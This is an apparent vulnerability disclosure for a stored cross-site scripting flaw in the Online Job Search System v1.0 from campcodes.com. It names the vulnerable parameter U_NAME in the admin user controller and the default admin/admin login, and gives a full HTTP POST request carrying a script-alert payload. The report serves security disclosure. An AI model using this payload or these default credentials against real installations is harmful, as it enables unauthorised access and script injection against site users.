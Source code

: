 # Complete Online Job Search System v1.0 by campcodes.com has Cross-site Scripting (XSS)

**Vul_Author**: **Liyu Chen**

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/user/controller.php

Vulnerability location: /eris/admin/user/controller.php?action=edit, U_NAME

[+] Payload: <script>alert(1)</script>

Tested on Windows 10, phpStudy

There is an example with alert: 

```sql
POST /eris/admin/user/controller.php?action=edit HTTP/1.1
Host: 10.10.10.134
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: http://10.10.10.134
DNT: 1
Connection: close
Referer: http://10.10.10.134/eris/admin/user/index.php?view=edit&id=2018001
Cookie: PHPSESSID=vf7g6ffd2s4el0u0gia3elgg14
Upgrade-Insecure-Requests: 1

USERID=2018001&deptid=&U_NAME=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&deptid=&U_USERNAME=Narciso&deptid=&U_PASS=123&U_ROLE=Administrator&save=
```

![](https://github.com/chen-liyu/bug_report/blob/main/vendors/campcodes.com/online-job-search-system/xss.gif?raw=true)
